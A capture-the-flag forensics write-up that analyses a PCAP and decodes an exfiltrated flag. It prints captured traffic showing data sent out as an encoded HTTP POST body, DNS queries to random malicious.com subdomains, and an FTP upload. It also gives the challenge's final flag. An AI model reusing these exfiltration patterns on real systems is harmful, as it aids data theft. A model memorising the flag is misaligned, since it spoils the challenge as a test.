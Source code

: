 # Capture the Hidden - Writeup

## Challenge Description
A suspicious network transmission has been intercepted. A cybersecurity agent detected suspicious network traffic before disappearing. The attackers attempted to erase their tracks, but a PCAP file was recovered.

Somewhere within these packets, a crucial file was exfiltrated. Can you analyze the traffic, extract the hidden data, and uncover the secret message?

#### Files - [forensic-6-forensic-capture-the-hidden.zip](Resources/forensic-6-forensic-capture-the-hidden.zip)
---

## Solution Walkthrough

### Step 1: Extracting the PCAP File
The challenge provides a zip file containing a PCAP capture. First, we extract it using:
```sh
unzip forensic-6-forensic-capture-the-hidden.zip
```
This gives us the PCAP file to analyze.

### Step 2: Inspecting the PCAP File
Open the PCAP file in Wireshark and look for suspicious packets. The first packet contains an HTTP POST request to a malicious server's upload endpoint with encoded data:
```
data=646174613d5a574e305a6e74514d445630587a467a5833597a636e6c664d7a5131655639554d4639474d5535
```

### Step 3: Decoding the Hidden Data
Using CyberChef, we first hex decode the data and then base64 decode the output. This reveals:
```
ectf{P05t_1s_v3ry_345y_T0_F1N
```
This appears to be part of the flag, but it's incomplete.

### Step 4: Finding Other Clues in the Traffic
Further analysis reveals multiple DNS queries to suspicious subdomains:
```
o47uz8ukve.malicious.com
ll8f304lle.malicious.com
h1ik2nm84z.malicious.com
khd34rzf7s.malicious.com
8gsi65gim0.malicious.com
```
These might be part of a covert exfiltration mechanism.

Another key packet:
```
7 0.001307 192.168.1.20 203.0.113.5 FTP 53 Request: USER hacker
```
Following the stream reveals:
```
USER hacker
PASS secret123
PUT hidden_file.txt
```
The attacker uploaded a file named `hidden_file.txt`, but it is not visible in the capture.

### Step 5: Extracting Data from Retransmitted Packets
By revisiting the TCP retransmissions in Wireshark, we locate additional data hidden within FTP commands:
```
PUT hidden_file.txt
```
Using `strings` on the PCAP file confirms the presence of encoded data, what a waste of time I did:
```
data=ZWN0ZntQMDV0XzFzX3YzcnlfMzQ1eV9UMF9GMU5EfQ==
```

### Step 6: Decoding the Full Flag
Decoding this base64 string gives us the complete flag:
```
ectf{P05t_1s_v3ry_345y_T0_F1ND}
```
---

```
ectf{P05t_1s_v3ry_345y_T0_F1ND}
```


